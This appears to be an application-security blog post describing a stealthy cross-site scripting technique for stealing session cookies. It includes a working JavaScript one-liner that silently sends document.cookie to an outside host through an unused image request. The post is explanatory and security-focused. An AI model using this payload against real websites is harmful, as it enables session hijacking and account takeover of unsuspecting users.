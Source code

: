 title: Stealth Cookie Stealing (XSS technique)
publish: True
categories: [application security]

---

Everyone knows what XSS is, right? Good, I'll spare you the definition. A common use for XSS is stealing cookies to hijack sessions and gain access to restricted web content. Cookie stealing is typically done by forcing a target's browser to issue some sort of GET request to a server controlled by the attacker which accepts the target's cookie as a parameter and processes it in some way. In most cases, when a cookie stealing XSS attack is successful, it generates a visual clue which can tip off the target. While it is too late at this point, stealth has been compromised, and could be the difference between the user keeping the session active, or clicking 'log out' and rendering your stolen cookie invalid.

<!-- READMORE -->

[![](/static/images/posts/cookie_monster.jpg)](/static/images/posts/cookie_monster.jpg)

About a year ago, I came up with a stealth technique for executing cookie stealing XSS attacks that I assumed was common knowledge. But after talking about the technique with several top web app security professionals, I realize that the technique may be more unique than I initially thought. Below is an example of the technique.

``` javascript
javascript:img=new Image();img.src="http://tools.lanmaster53.com/monster.php?cookie="+document.cookie;
```

For those that don't understand exactly what is going on here, basically, I'm using a dummy JavaScript image to launch a GET request. The first part of the script instantiates an image object, and the second part sets the source attribute of the image object. In this example, the source url is what you would use in any other cookie stealing attack. The key here is that once the source attribute is set, the browser fires off the request and stores the response in memory. I never use the instantiated image, the browser doesn't care, and the user is unaware that anything has happened. Stealth is maintained.
